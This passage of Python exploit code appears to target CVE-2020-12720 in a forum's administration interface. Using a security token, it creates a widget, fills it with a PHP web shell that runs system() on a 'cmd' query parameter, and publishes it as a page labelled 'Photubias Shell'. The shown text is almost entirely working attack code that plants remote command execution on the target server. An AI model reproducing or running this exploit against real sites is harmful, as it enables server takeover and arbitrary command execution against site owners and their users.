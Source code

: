 
        ## Create a new empty page
        sPath = 'ajax/api/widget/saveNewWidgetInstance'
        lData = {'containerinstanceid':'0','widgetid':'23','pagetemplateid':'','securitytoken':sToken}
        oResponse = getData(sURL + sPath, lData)
        sResponse = oResponse.read().decode()
        sWidgetInstanceID = sResponse.split(',')[0].split(':')[1].replace('}','')
        sPageTemplateID = sResponse.split(',')[1].split(':')[1].replace('}','')
        print('[+] Got WidgetInstanceID: '+sWidgetInstanceID+' and PageTemplateID: '+sPageTemplateID)

        ## Now submitting the page content
        sPageName = 'cve-2020-12720-'+randomString()
        sPath = 'ajax/api/widget/saveAdminConfig'
        lData = {'widgetid':'23',
                 'pagetemplateid':sPageTemplateID,
                 'widgetinstanceid':sWidgetInstanceID,
                 'data[widget_type]':'',
                 'data[title]':sPageName,
                 'data[show_at_breakpoints][desktop]':'1',
                 'data[show_at_breakpoints][small]':'1',
                 'data[show_at_breakpoints][xsmall]':'1',
                 'data[hide_title]':'0',
                 'data[module_viewpermissions][key]':'show_all',
                 'data[code]':"echo('###SHELLRESULT###');system($_GET['cmd']);echo('###SHELLRESULT###');",
                 'securitytoken':sToken}
        oResponse = getData(sURL + sPath, lData)
        if not oResponse.code == 200: print('[!] Error submitting page content for ' + sPageName)
        
        ## Finally saving the new page
        sPath = 'admin/savepage'
        lData = {'input[ishomeroute]':'0',
                 'input[pageid]':'0',
                 'input[nodeid]':'0',
                 'input[userid]':'1',
                 'input[screenlayoutid]':'2',
                 'input[templatetitle]':sPageName,
                 'input[displaysections[0]]':'[{"widgetId":"23","widgetInstanceId":"' + sWidgetInstanceID + '"}]',
                 'input[displaysections[1]]':'[]',
                 'input[displaysections[2]]':'[]',
                 'input[displaysections[3]]':'[]',
                 'input[pagetitle]':sPageName,
                 'input[resturl]':sPageName,
                 'input[metadescription]':'Photubias+Shell',
                 'input[pagetemplateid]':sPageTemplateID,
                 'url':sURL,
                 'securitytoken':sToken}
        oResponse = getData(sURL + sPath, lData)
        if not oResponse.code == 200: print('[!] Error saving page content for ' + sPageName)
        return sPageName

